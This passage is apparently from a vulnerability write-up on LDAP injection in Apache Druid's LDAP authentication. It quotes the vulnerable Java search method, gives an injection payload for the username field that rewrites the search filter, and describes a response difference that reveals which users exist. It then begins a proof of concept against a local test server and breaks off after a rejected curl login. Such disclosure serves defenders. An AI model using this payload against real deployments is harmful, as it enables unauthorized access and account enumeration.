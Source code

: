 SearchResult getLdapUserObject(BasicAuthLDAPConfig ldapConfig, DirContext context, String username) {
  SearchControls sc = new SearchControls();
  sc.setSearchScope(SearchControls.SUBTREE_SCOPE);
  sc.setReturningAttributes(new String[] {ldapConfig.getUserAttribute(), "memberOf" });
  NamingEnumeration<SearchResult> results = context.search(
      ldapConfig.getBaseDn(),
      StringUtils.format(ldapConfig.getUserSearch(), username),
      sc);
  if (!results.hasMore()) {
    return null;
  }
  return results.next();
}
{% endhighlight %}

The key lines:

**Line 25**:
This is where the actual LDAP injection occurs. The LDAP user search filter is created by putting the user supplied `username` into the pre-configured template (`ldapConfig.getUserSearch()`). If the template is `(&(uid=%s)(memberof=cn=users,dc=example,dc=org))` and we provide `user` as the `username`, the search filter will be `(&(uid=user)(memberof=cn=users,dc=example,dc=org))`, which is fine. But if we provide `user)(uid=*))(|(uid=*` as the `username`, the search filter will be `(&(uid=user)(uid=*))(|(uid=*)(memberof=cn=users,dc=example,dc=org))`. These are actually two filters (`(&(uid=user)(uid=*))` and `(|(uid=*)(memberof=cn=users,dc=example,dc=org))`), but in most (all?) cases only the first one is executed.

**Lines 9 and 15**:
If the user doesn't exist in LDAP (the LDAP search from line 23 hasn't returned any result), `null` is returned (line 9). However, if the user exists (the LDAP search from line 23 has returned at least one result), but the password is incorrect, `BasicSecurityAuthenticationException` is thrown (line 15). The client can distinguish between these two cases, which will be important during the exploitation.

As we can clearly see, we can modify the original LDAP search filter logic by sending specially crafted `username` (e.g. in `Authorization` HTTP header). That's the theory. Let's see how we can exploit this vulnerability.

## PoC 1: Unauthorized access

I've setup an LDAP server with two user groups for this exercise: `cn=users,dc=example,dc=org` and `cn=admins,dc=example,dc=org`. `user1`, `user2`, `user3`, etc. are members of the first group. `admin1`, `admin2`, `admin3`, etc. are members of the second group.

I've also setup Apache Druid on `http://127.0.0.1:8888` and configured the user search filter template so that only users belonging to `cn=users,dc=example,dc=org` group can log in: `(&(uid=%s)(memberof=cn=users,dc=example,dc=org))`.

When I try to access Druid as `admin1`, the request is rejected:

```shell
$ curl -i -u 'admin1:admin1' http://127.0.0.1:8888/druid/coordinator/v1/isLeader
HTTP/1.1 401 Unauthorized
Date: Sun, 22 Mar 2020 15:55:51 GMT
Cache-Control: must-revalidate,no-cache,no-store
Content-Type: text/html;charset=iso-8859-1
Content-Length: 352
Server: Jetty(9.4.12.v20180830)

<html>
<head>
<meta http-equiv="Content-Type" content="text/html;charset=utf-8"/>
<title>Error 401 Unauthorized</title>
</head>
<body><h2>HTTP ERROR 401</h2>
<p>Problem accessing /druid/coordinator/v1/isLeader. Reason:
```